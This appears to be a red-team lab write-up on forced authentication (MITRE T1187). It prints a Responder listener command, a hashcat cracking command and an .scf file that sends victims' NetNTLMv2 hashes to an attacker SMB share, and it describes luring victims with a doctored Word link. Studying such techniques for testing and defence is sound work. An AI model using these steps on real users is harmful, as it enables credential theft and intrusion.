 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink to an SMB server

Attacker creates a fake MS Word document that has a hyperlink to attackers server where a `responder` is listening on port 445 and will be capturing the victim's `NetNTLMv2` hash if they click the dodgy link in the below document:

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Attacker starts a responder so he can receive incoming SMB authentication request in order to capture the victim's hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker sends the malicious document to the unsuspectim victim and convinces them to click the link. Once they click the link in the document, `responder` on the attacker's system captures victim's hash:

![](../.gitbook/assets/forced-auth-hashes.png)

Once attacker got the hash, he can try and crack it using hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on an attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code-tabs %}
{% code-tabs-item title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode-tabs-item %}
{% endcode-tabs %}

An victim user `low` then opens the share `\\10.0.0.7\tools`, `fa.scf` gets executed and the user's hashes are sent to the attackers machine:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded with a browser and as soon as the victim opens the Downloads folder, the hashes are stolen:

![](../.gitbook/assets/forced-auth-downloads.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1187\",\"type\":\"link\",\"title\":\"Forced Authentication - ATT&CK for Enterprise\"}" %}

[http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf](http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

{% embed data="{\"url\":\"https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/\",\"type\":\"link\",\"title\":\"You Can Steal Windows Login Credentials via Google Chrome and SCF Files\",\"description\":\"Just by accessing a folder containing a malicious SCF file, a user will unwittingly share his computer\'s login credentials with an attacker via Google Chrome and the SMB protocol.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.bleepstatic.com/favicon/bleeping.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://www.bleepstatic.com/content/hl-images/2017/05/16/WindowsPassword.jpg\",\"width\":1250,\"height\":525,\"aspectRatio\":0.42}}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/\",\"type\":\"link\",\"title\":\"SMB Share – SCF File Attacks\",\"description\":\"SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive informa…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2017/12/metasploit-smb-relay-attack.png\",\"width\":724,\"height\":401,\"aspectRatio\":0.5538674033149171}}" %}

